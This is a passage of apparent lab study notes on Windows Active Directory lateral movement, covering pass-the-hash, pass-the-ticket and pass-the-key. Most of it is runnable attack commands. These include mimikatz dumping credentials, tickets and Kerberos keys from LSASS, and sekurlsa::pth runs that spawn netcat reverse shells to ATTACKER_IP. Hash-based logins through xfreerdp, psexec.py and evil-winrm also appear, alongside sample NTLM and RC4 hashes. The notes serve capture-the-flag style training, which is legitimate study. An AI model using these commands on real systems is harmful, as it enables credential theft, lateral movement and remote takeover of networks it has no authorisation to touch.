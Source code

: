 - use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```mimikatz
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

- Receive above reverse shell: `nc -lvp 5555`
- In Linux:
```shell
# Connect to RDP using PtH
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH

# Connect via psexec using PtH:
# Note: Only the linux version of psexec support PtH.
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP


# Connect to WinRM using PtH:
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### pass-the-ticket 
- extract Kerberos tickets and session keys from LSASS memory using mimikatz
- requires SYSTEM privileges
```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
-  Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).
-  inject the extracted tickets into the current session with the following command:

```shell-session
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```
- Use `klist` command to check if the tickets were correctly injected

### Overpass-the-hash / Pass-the-Key
- timestamp sent to request a TGT is encrypted with an encryption key derived from the password. The algorithm to derive this key can be either DES, RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name **Pass-the-key (PtK)**.
- obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

- If we have the RC4 hash, run:

```mimikatz
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
